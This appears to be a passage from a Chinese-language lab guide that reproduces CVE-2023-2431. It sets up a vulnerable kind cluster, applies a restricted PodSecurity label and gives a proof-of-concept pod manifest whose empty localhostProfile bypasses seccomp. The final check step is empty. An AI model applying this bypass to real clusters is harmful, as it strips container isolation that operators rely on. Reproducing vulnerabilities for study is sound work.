 ```yaml
nodes:
- role: control-plane
```
- 创建包含漏洞版本的集群
```shell
kind create cluster --name cve-2023-2431 --image=kindest/node:v1.23.13 --config=kind-config.yaml
```

### 2. 复现过程

- 设置default命名空间的PodSecurity规则为restricted
```shell
kubectl label --overwrite ns default pod-security.kubernetes.io/enforce=restricted
```
- 在default命名空间下创建pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: my-nginx
  labels:
    app: my-app
spec:
  containers:
    - name: my-nginx
      image: nginxinc/nginx-unprivileged
      ports:
        - containerPort: 8080
      securityContext:
        allowPrivilegeEscalation: false
        capabilities:
          drop: ['ALL']
        runAsNonRoot: true
        seccompProfile:
          type: RuntimeDefault 
```
- 测试seccomp是否启用
```shell
kubectl exec my-nginx -- cat /proc/1/status | grep Seccomp
```
- 创建利用Pod，绕过seccomp限制
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: poc-pod
  labels:
    app: my-app
spec:
  containers:
    - name: poc-pod
      image: nginxinc/nginx-unprivileged
      ports:
        - containerPort: 8080
      securityContext:
        allowPrivilegeEscalation: false
        capabilities:
          drop: ['ALL']
        runAsNonRoot: true
        seccompProfile:
          type: Localhost
          localhostProfile: ""
```
- 测试seccomp是否已禁用
```
```